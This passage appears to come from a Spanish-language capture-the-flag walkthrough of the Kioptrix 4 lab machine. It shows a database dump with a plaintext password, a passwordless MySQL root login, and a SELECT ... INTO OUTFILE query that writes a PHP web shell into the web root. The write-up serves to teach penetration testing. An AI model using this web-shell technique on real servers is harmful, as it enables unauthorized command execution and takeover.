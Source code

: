 

```
robert@Kioptrix4:/var/www$ cat database.sql 
CREATE TABLE `members` (
`id` int(4) NOT NULL auto_increment,
`username` varchar(65) NOT NULL default '',
`password` varchar(65) NOT NULL default '',
PRIMARY KEY (`id`)
) TYPE=MyISAM AUTO_INCREMENT=2 ;

-- 
-- Dumping data for table `members`
-- 

INSERT INTO `members` VALUES (1, 'john', '1234');

```


```
robert@Kioptrix4:/var/www$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 64
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)
```

Usando igual root, hacemos un tipo de inyección, con select ... into outfile
```
robert@Kioptrix4:/var/www$ mysql -u root        
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/checklogin.php';
ERROR 1086 (HY000): File '/var/www/checklogin.php' already exists
mysql> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php';     
Query OK, 1 row affected (0.00 sec)

mysql> exit
Bye
robert@Kioptrix4:/var/www$ ls
checklogin.php  database.sql  images  index.php  john  login_success.php  logout.php  member.php  robert  shell.php
```
